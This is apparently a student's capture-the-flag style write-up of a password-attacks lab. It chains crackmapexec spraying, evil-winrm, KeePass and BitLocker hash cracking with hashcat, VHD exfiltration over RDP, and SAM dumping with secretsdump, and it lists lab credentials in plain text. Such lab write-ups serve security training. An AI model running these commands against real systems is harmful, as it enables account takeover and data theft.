

johanna:1231234!
david:gRzX7YbeTcDG7

# Password Attacks Lab - Hard

Examine the third target and submit the contents of flag.txt in C:\Users\Administrator\Desktop\ as the answer. 

- Initiating brute force with resouces
`crackmapexec smb 10.129.x.x -u johanna -p password.list --shares`
Result:
  - johanna:1231234!
  - Discovery of share david not accessible by johanna
- connecting to the user using evil-winrm `evil-winrm -i 10.129.x.x -u johanna`
- navigating found out a keepass file.
- download, extract and decode the hash using `keepass2hash Logins.kdbx > login.hash`
result: Qwerty7!
- initiating a rdp session using `xfreerdp /v:10.129.x.x /u:johanna /p:1231234!`
- discovered Key password manager, login successful
result: `david:gRzX7YbeTcDG7`
- with the credentials trying to access the smb david share previously discovered. Login success
- Discovered file Backup.vhd trying to download it.
- Error encountered while downloading

- using xfreerdp to connect attack box as a drive to johanna
`xfreerdp /v:10.129.x.x /u:johanna /p:1231234! /drive:linux,/tmp/`
- from the RDP connection opening file explorer and mapping the smb drive with david's credentials
- then copying directly to the attack box through the rdp connection
- stripping the hashes of the vhd file
- Using the first hash to crack.
`grep "bitlocker\$0" backup.hashes > backup.hash`
- cracking the hash
`hashcat -m 22100 backup.hash mut_password.list -o backup.cracked`
Result: 123456789!
- Mounting the drive to linux machine
  
  ```shell
  ## inserting the nbd module into the kernel

  sudo modprobe nbd
  sudo qemu-nbd -c /dev/nbd0 Backup.vhd

  # Using cryptsetup to decrypt the drive

  sudo cryptsetup bitlkOpen /dev/nbd0p2 backup
  sudo mkdir /mnt/mydrive
  sudo mount /dev/mapper/backup /mnt/mydrive
  ```

- Discovered SAM and SYSTEM files
- Extract hashes using `python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL`
- Discovered hash, decrypting it using hashcat
`sudo hashcat -m 1000 e53d4d912d96874e83429886c7bf22a1 mut_password.list`
Result: `Adminitrator:Liverp00l8!`
- Go to destination path and view the flag.